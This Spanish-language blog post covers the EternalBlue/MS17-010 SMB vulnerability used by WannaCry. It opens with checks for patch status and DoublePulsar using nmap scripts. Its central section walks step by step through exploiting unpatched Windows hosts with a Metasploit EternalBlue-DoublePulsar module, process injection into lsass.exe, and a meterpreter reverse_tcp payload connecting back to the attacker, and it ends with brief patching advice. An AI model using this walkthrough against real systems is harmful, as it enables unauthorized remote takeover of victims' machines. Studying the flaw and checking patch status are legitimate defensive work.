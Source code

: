 ```yaml
---
layout: post
title: "Parche contra el exploit de WannaCry y atacando con EternalBlue el exploit que uso WannaCry"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

El vector de propagación del malware WANNACRY se vale de una vulnerabilidad en SMB, desde el 14 de marzo, Microsoft resolvió el problema 
a través del parche de seguridad MS17-010, para todas las versiones de Windows.

Empecemos por verificar si nuestro sistema está parcheado contra este exploit llamado EternalBlue, ten en cuenta que se vienen más 
ataques aprovechándose de esta vulnerabilidad.

Para eso descargamos el siguiente script que revisa los archivos de actualización en el sistema y busca aquellos correspondientes al 
parche de EternalBlue.
[Puedes descargar estes script desde este enlace](https://github.com/eset-la/Check-EternalBlue).
{% include image.html url="http://bit.ly/2pYjhUr" %}
{% include image.html url="http://bit.ly/2rj86tq" %}

Como segunda opción podemos usar el script NSE de Nmap para detectar equipos Windows vulnerables a la ejecución de código remoto ms17-010 
que el pasado domingo publicó nuestro buen amigo Calderpwn.
```
https://github.com/cldrn/nmap-nse-scripts/blob/master/scripts/smb-vuln-ms17-010.nse
```
Modo de uso:

-Para verificar que un equipo está parchado o no:

`$ nmap -p445 --script smb-vuln-ms17-010 <objetivo>`

-Para verificar que no tenga el implante DOUBLE PULSAR:

`$ nmap -p445 --script smb-double-pulsar-backdoor <objetivo>`

### EXPLOTANDO MS17-010

`ETERNALBLUE` es el nombre del exploit que le permite a WannaCrypt autoreplicarse y propagarse rápidamente por la red infectada. 
Al parecer, fue desarrollado por la NSA y pertenece a la lista de archivos filtrados por el grupo Shadow Brokers.

`ETERNALBLUE` es el único que puede ser usado para atacar Windows 7 y Windows Server 2008 sin necesidad de autenticación. Luego, podemos 
utilizar DOUBLEPULSAR para inyectar remotamente una DLL maliciosa en el equipo previamente atacado con ETERNALBLUE. Teniendo en cuenta que podemos inyectar la DLL que queramos, crearemos mediante Empire, una DLL maliciosa que realice una conexión inversa desde el equipo víctima hacia el equipo atacante.

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos lo siguiente:
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
{% include image.html url="http://bit.ly/2rwjAXA" %}

Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2pQqYQy" %}

Copiamos el modulo (eternalblue_doublepusar.rb)  a metasploit,en la carpeta donde se encuentran los exploits para SMB de Windows.
{% include image.html url="http://bit.ly/2qXpGTZ" %}

Abrimos Metasploit, seleccionaremos el exploit que acabamos de añadir 

`use exploits/windows/smb/eternalblue_doublepulsar`  
Con show options nos mostrara los parámetros que le debemos de configurar:
{% include image.html url="http://bit.ly/2q1b6pE" %}

En los parámetros `DOUBLEPULSARPATH y ETERNALBLUEPATH` ponemos el directorio donde se encuentra la carpeta “deps” que hemos descargado previamente.

En `PROCESSINJECT` recibe el nombre del proceso donde va a ser inyectado en la máquina target el payload, si nuestro target es de x64 cambiamos el proceso wlms.exe a lsass.exe. Si el target es un x86, debemos dejarlo en wlms.exe.

En `RHOST` ponemos la IP de la máquina a atacar.

En `WINEPATH` ponemos el directorio donde se encuentra el “drive_c” de WINE.
{% include image.html url="http://bit.ly/2rwmfAD" %}


Ponemos el payload que vamos a utilizar:

`set payload windows/x64/meterpreter/reverse_tcp`
{% include image.html url="http://bit.ly/2pQaXd7" %}
Configuramos el payload con:
set `LHOST` ip del atacante
El puerto lo dejaremos por default en el 4444

Por ultimo lanzamos con exploit 
{% include image.html url="http://bit.ly/2qBOo9a" %}
Como verán ya hemos accedido al sistema Windows, solo requerimos la dirección IP de la víctima y nos devolverá una sesión de meterpreter.

### Recomendaciones

Si tu equipo es vulnerable [simplemente instala el parche](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx).
{% include image.html url="http://bit.ly/2p5wDSj" %}

1.- Click en Windows Update

2.- Instalar actualizaciones 

3.-Antivirus actualizado

4.-No abrir archivos adjuntos en correos que no identifican! 

By Torres Happy Hacking
